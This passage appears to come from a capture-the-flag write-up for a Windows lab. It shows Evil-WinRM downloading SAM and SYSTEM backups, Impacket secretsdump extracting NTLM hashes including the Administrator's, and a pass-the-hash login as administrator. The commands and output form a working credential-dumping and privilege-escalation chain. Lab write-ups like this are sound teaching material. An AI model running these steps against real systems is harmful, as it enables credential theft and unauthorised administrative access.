 

*Evil-WinRM* PS C:\Users\j.smith\Desktop> download sam.bak
                                        
Info: Downloading C:\Users\j.smith\Desktop\sam.bak to sam.bak
                                        
Info: Download successful!




*Evil-WinRM* PS C:\Users\j.smith\Desktop> download system.bak
                                        
Info: Downloading C:\Users\j.smith\Desktop\system.bak to system.bak
                                        
Info: Download successful!


<img width="1198" height="247" alt="image" src="https://github.com/user-attachments/assets/b3a6ee4f-7c57-4e26-afe0-efc0e201684c" />







root@ip-10-201-108-225:~/K2# python3.9 /opt/impacket/build/scripts-3.9/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9545b61858c043477c350ae86c37b32f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 





<img width="1165" height="214" alt="image" src="https://github.com/user-attachments/assets/389c0e61-b706-4ed8-94e5-d584b1491a4b" />





root@ip-10-201-108-225:~/K2# evil-winrm -i 10.201.43.198 -u 'administrator' -H '9545b61858c043477c350ae86c37b32f'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir




